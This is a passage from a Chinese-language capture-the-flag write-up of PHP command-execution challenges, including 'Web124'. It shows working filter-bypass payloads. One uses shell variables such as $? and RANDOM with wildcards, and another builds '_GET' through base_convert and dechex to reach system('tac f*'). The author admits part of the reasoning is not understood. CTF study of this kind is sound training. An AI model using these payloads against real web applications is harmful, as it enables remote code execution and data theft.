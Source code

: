 ![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/3ba91c96f42364663d6e26e7ab2e9592.png)

解题思路：这题在上题的基础上又过滤了#和PWD，PWD的绕过很简单，用HOME就可以，而#,就要用到$?了

$? 执行上一个指令的返回值 (显示最后命令的退出状态。0表示没有错误，其他任何值表明有错误)所以在使用$?之前要先给错误的命令 让$?的值为1

${}和 \<A可以但是题目上${}这个不可以

所以用\<A后边的数字4还是用RANDOM随机数来获取

payload：code=\<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/12aa98990ec11dbc040b5714ad30158d.png)
## Web124：

解题思路：该题给了很多数学函数白名单，所以可以想进制转换，16进制可以转字符串，10进制可以转16进制。所以我们可以构造如下命令

c=$\_GET[a]($\_GET[b])&a=system&b=cat flag 我们需要构造的是其实只有 \_GET，$我们可用使用，中括号可用花括号代替，小括号也是可以使用的。这时候我们想到了一个办法，如果可以构造出hex2bin函数就可以将16进制转换成字符串了。我们又可以用decoct将10进制转换成16进制。也就是可以将10进制转换成字符串。那么问题来了，hex2bin怎么构造呢，这时候就需要用到base\_convert了。我们发现36进制中包含了所有的数字和字母，所有只需要将hex2bin按照36进制转换成10进制就可以了。

--10---16--字符串。

①echo base\_convert('hex2bin', 36, 10);

结果 37907361743

36进制转化为10进制

②echo hexdec(bin2hex("\_GET"));

结果 1598506324

bin2hex 将字符串转换为16进制，然后将16进制转换为10进制。

现在我们要做的就是反过来了

③base\_convert('37907361743',10,36); hex2bin

④base\_convert('37907361743',10,36)(dechex('1598506324')); \_GET

dechex将10进制转换为16进制

c=$pi=\_GET;$$pi{abs}($$pi{acos})&abs=system&acos=tac f\*

payload:c=$pi=base\_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos})&abs=system&acos=tac f\*（标蓝处还不理解）

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/ea5fc1bb966344e252d370070406f121.png)